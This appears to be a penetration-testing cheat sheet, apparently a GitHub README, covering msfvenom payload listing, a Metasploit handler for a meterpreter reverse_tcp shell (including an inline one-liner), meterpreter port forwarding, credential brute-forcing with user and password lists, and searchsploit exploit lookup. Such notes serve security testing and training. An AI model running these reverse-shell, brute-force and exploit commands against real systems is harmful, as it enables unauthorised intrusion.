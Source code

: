 List paylods

    # msfvenom --list payloads
    # msfvenom  -p windows/x64/vncinject/reverse_winhttps --list-options

Start wait:

    # msfconsole
    msf5 > use exploit/multi/handler 
    msf5 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp 

Or inline:

    msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/meterpreter/reverse_tcp; set LHOST {yourip}; set LPORT 9999; exploit -j"


Put on the machine and run 

Port forwarding (to access a local service from a remote machine)

    meterpreter > portfwd add -L <local host> -l <local port> -r <remote host> -p <remote port>

# Reversing

 - Ghidra
 - IDA
 - [.Net Reflector](https://www.red-gate.com/products/dotnet-development/reflector/)

# MISC 

## Python

 * [Simple IPv4 TCP client](client.py)
 * [Simple IPv6 HTTP server](server.py)
 * [Snippet (md5, regex ...)](snippet.py)

## Good practices

Put all users in users.txt and all passwords in passwords.txt. Use scanners from msfconsole to easily test all posibilities.


Find CVE

    # searchsploit filezilla
    # searchsploit -x 5555 # inspect payload
    # searchsploit -m 5555 # copy payload
